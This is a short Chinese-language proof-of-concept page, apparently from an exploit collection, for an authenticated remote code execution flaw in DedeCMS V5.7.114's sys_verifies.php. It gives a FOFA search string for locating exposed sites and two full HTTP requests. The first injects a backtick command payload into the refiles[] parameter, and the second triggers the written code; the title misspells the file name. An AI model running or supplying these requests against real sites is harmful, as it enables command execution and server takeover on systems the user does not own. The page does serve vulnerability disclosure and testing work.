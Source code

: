 # DedeCMSV5.7.114后台sys_verizes.php存在远程代码执行漏洞

DedeCMS V5.7.114存在远程代码执行漏洞。产生该漏洞的原因是，虽然sys_verizes.php对编辑的文件进行了一定的限制，但攻击者仍然可以绕过这些限制并以某种方式编写代码，从而允许经过身份验证的攻击者利用该漏洞执行任意命令并获得系统权限。

## fofa

```yaml
app="DedeCMS网站内容管理系统"
```

## poc

```yaml
GET /dede/sys_verifies.php?action=getfiles&refiles[]=123${${print%20`whoami`}} HTTP/1.1
Host: 127.0.0.11
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: menuitems=1_1%2C2_1%2C3_1%2C4_1%2C5_1%2C6_1; PHPSESSID=89s6bbv2d1unokav5grt4bk2g4; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=10acd9938ef3615d; DedeLoginTime=1720327720; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=c5e6c12f26661f56; _csrf_name_236f0c58=6d608f0ee0d0e0b59410565dfeec6b2b; _csrf_name_236f0c581BH21ANI1AGD297L1FF21LN02BGE1DNG=bc5881b7b91f1bd9
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=1
```

![2024712-6](https://gitee.com/fushuling/cve/raw/master/2024712-6.png)



```
GET /dede/sys_verifies.php?action=down&curfile=1 HTTP/1.1
Host: 127.0.0.11
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: menuitems=1_1%2C2_1%2C3_1%2C4_1%2C5_1%2C6_1; PHPSESSID=89s6bbv2d1unokav5grt4bk2g4; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=10acd9938ef3615d; DedeLoginTime=1720327720; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=c5e6c12f26661f56; _csrf_name_236f0c58=6d608f0ee0d0e0b59410565dfeec6b2b; _csrf_name_236f0c581BH21ANI1AGD297L1FF21LN02BGE1DNG=bc5881b7b91f1bd9
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=1
```

![20224712-8](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407191227418.png)

## 漏洞来源

- ![](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407191227658.png)